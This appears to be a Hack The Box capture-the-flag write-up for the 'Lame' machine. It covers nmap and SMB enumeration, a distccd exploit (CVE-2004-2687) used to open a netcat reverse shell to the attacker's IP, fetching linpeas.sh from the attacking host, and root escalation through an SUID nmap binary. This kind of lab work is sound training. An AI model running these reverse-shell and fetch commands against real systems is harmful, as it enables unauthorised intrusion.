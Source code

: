 # Lame - 10.10.10.3

Started off with a nmap scan
``` markdown
nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3
```
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.\
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command execution
CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.\
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![image](https://user-images.githubusercontent.com/110210595/185813986-3fe1ff10-9b0e-46e6-873a-29d79fd5341e.png)

![image](https://user-images.githubusercontent.com/110210595/185813993-63e2b007-2ec3-4ea1-953e-a9c2db6975a5.png)

I see that smb is open. 139/445. I run ```markdown \ smbmap -H 10.10.10.3 \ ``` and get back some users.

![image](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is READ, WRITE. Lets login and see what we can find.\
I use ``` markdown smbclient \\\\10.10.10.3\\tmp markdown ``` and we get a hit. \
I use ```markdown\  ls```  to see what we can find. Unfortunately there is nothing here either.\
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![image](https://user-images.githubusercontent.com/110210595/185814036-42698e61-b4e6-4be4-84de-df540f801f33.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running.  <em><strong>distccd v1</em></strong>\
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855 \
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong>\
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  ``` markdown chmod +x CVE-2004-2687.py ``` \
the file is ready to be used. First I started a listener on my attacking machine with ``` markdown nc -lvnp 9001 ``` and then used the following command \
``` markdown ./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` No good, got errors. \
Then I tried. ``` markdown python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python. \
Next up,  ``` markdown python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` Success, we get a shell!

![image](https://user-images.githubusercontent.com/110210595/185814122-93aa8ce3-0128-4f21-a19b-8d04b5580a30.png)

![image](https://user-images.githubusercontent.com/110210595/185814162-05876fb9-000c-4612-bcfc-bd4d8fc70e88.png)

Let's upgrade the shell. I used the following. \
``` markdown python -c 'import pty; pty.spawn("/bin/bash")' ``` python3 and python2 didn't work. \
``` markdown export TERM=xterm ``` \
``` markdown stty raw -echo && fg ``` \
``` markdown enter ``` \
``` markdown enter ``` \

We're a normal user daemon. I started off with ``` markdown sudo -l ``` but it asked for a password. Let's move on.
I look around a bit and ``` markdown cd /home ``` directory and do a ``` markdown ls ``` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I do a cat user.txt at it and we get out our first flag.  

![image](https://user-images.githubusercontent.com/110210595/185814188-b2d3ad0a-a11d-4f7e-a4bc-49c2566b5fa1.png)

![image](https://user-images.githubusercontent.com/110210595/185814191-f868ba55-884e-4c9e-ba39-267b4ee7455c.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh \
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine. \
I use python3 -m http.server 80 get the server up and running. \
On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox. \
The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file. \
I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![image](https://user-images.githubusercontent.com/110210595/185814232-c92b51cf-c297-46b9-ad1f-ed45077f1d5d.png)

![image](https://user-images.githubusercontent.com/110210595/185814233-174d7a35-f050-4533-acd5-6fc6f51f48a7.png)

![image](https://user-images.githubusercontent.com/110210595/185814242-ca1ef7ad-efb5-47bd-8b56-bedfb902f6c7.png)

the /usr/bin/nmap suid \
I head over to https://gtfobins.github.io/ and search for nmap \
I cd /usr/bin where the suid is located. \
I start off with shell code (a) and nothing happened. So I keep going down the list. \
Shell (b) worked!

![image](https://user-images.githubusercontent.com/110210595/185814276-6c882b38-ce84-4183-a828-49b30153bc7a.png)

we can now cd /root and see what is there which is the root.txt flag! \
we have successfully rooted this box!

![image](https://user-images.githubusercontent.com/110210595/185814294-98c871d4-6e47-46cd-b258-79796039924c.png)

![image](https://user-images.githubusercontent.com/110210595/185814307-20443976-cd82-46bb-8929-1e17fb164988.png)
